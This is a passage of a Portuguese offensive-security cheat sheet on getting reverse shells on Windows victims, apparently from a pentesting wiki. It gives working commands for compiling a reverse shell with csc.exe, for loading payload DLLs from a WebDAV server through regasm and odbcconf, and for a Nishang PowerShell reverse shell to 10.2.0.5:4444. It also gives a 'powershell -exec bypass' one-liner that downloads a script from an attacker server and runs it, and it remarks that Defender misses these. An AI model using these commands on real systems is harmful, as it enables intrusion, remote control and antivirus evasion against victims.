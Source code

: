 ## **CSC**

Compilar código C# na máquina da vítima.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shell.exe shell.cs
```
Você pode baixar um shell reverso básico em C# aqui: [https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc)

**Não detectado**

## **Regasm/Regsvc**
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**

**Eu não tentei**

[**https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182**](https://gist.github.com/Arno0x/71ea3afb412ec1a5490c657e58449182)

## Odbcconf
```
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```
Processo realizando chamada de rede: **svchost.exe**\
Carga gravada no disco: **Cache local do cliente WebDAV**

**Eu não tentei**

[**https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2**](https://gist.github.com/Arno0x/45043f0676a55baf484cbcd080bbf7c2)

## Shells do Powershell

### PS-Nishang

[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

Na pasta **Shells**, existem vários tipos de shells diferentes. Para baixar e executar o Invoke-_PowerShellTcp.ps1_, faça uma cópia do script e adicione ao final do arquivo:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.2.0.5 -Port 4444
```
Comece a servir o script em um servidor web e execute-o no dispositivo da vítima:
```
powershell -exec bypass -c "iwr('http://10.11.0.134/shell2.ps1')|iex"
```
O Defender ainda não detecta isso como código malicioso (ainda, 3/04/2019).

**TODO: Verificar outros shells do nishang**
